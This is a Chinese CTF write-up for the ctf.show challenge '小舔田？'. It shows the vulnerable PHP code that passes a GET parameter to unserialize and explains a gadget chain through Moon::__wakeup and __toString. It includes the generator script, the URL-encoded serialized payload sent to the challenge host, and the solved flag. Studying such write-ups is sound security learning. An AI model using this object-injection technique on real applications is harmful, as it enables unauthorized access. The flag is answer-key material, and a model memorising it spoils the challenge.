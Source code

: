 # 小舔田？

[题目地址](https://ctf.show/challenges#%E5%B0%8F%E8%88%94%E7%94%B0%EF%BC%9F-3883)

开了个脑洞，开出来了这道题。

```php
<?php
include "flag.php";
highlight_file(__FILE__);

class Moon{
    public $name="月亮";
    public function __toString(){
        return $this->name;
    }
    
    public function __wakeup(){
        echo "我是".$this->name."快来赏我";
    }
}

class Ion_Fan_Princess{
    public $nickname="牛夫人";

    public function call(){
        global $flag;
        if ($this->nickname=="小甜甜"){
            echo $flag;
        }else{
            echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
            echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
        }
    }
    
    public function __toString(){
        $this->call();
        return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
    }
}

if (isset($_GET['code'])){
    unserialize($_GET['code']);

}else{
    $a=new Ion_Fan_Princess();
    echo $a;
}
```

粗看这题感觉很矛盾，用了unserialze那肯定是反序列化相关漏洞，然而如果要get传参把nickname改为小甜甜的序列化字符串，call函数根本调用不到。[__toString](https://www.yisu.com/zixun/602549.html)是php中的一个魔术方法，在把对象转换成字符串时自动调用。else分支里的echo $a可以调用该函数然后调用call函数，但是都进到if里了，else根本不可能进得去。

某种程度上福尔摩斯说的是对的。else分支里引导我们传Ion_Fan_Princess()的序列化字符串，然而分析后根本不可能得到flag。再看上面，还有个Moon。排除一切不可能，剩下的再不可能也是唯一的可能，我们就要从Moon入手，因为Moon也有__toString，而且__wakeup中会调用__toString。如果说我们把\$name设置为Ion_Fan_Princess的实例呢？本来尝试直接\$name=new Ion_Fan_Princess()，结果报错。换个方传进去，我自己写个构造函数，毕竟反序列化也不记录构造函数。

```php
class Moon{
    public $name="";
    public function __toString(){
        return $this->name;
    }
    public function __construct($a){
        $this->name=$a;
    }
    public function __wakeup(){
        echo "我是".$this->name."快来赏我";
    }
}
$flag='iamflag';
class Ion_Fan_Princess{
    public $nickname="小甜甜";

    public function call(){
        global $flag;
        if ($this->nickname=="小甜甜"){
            echo $flag;
        }else{
            echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
            echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
        }
    }
    
    public function __toString(){
        $this->call();
        return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
    }
}
$a=new Moon(new Ion_Fan_Princess());
$b=serialize($a);
echo urlencode($b);
unserialize($b);
```

成功了！把打印出来的内容当作payload，得到flag。

- http://dd290f53-1a71-4b21-ad32-e0dd0fa54efa.challenge.ctf.show/?code=O%3A4%3A%22Moon%22%3A1%3A%7Bs%3A4%3A%22name%22%3BO%3A16%3A%22Ion_Fan_Princess%22%3A1%3A%7Bs%3A8%3A%22nickname%22%3Bs%3A9%3A%22%E5%B0%8F%E7%94%9C%E7%94%9C%22%3B%7D%7D

## Flag
> ctfshow{0ee87442-0bf3-4c33-b7d7-1cf5dd71b8a3}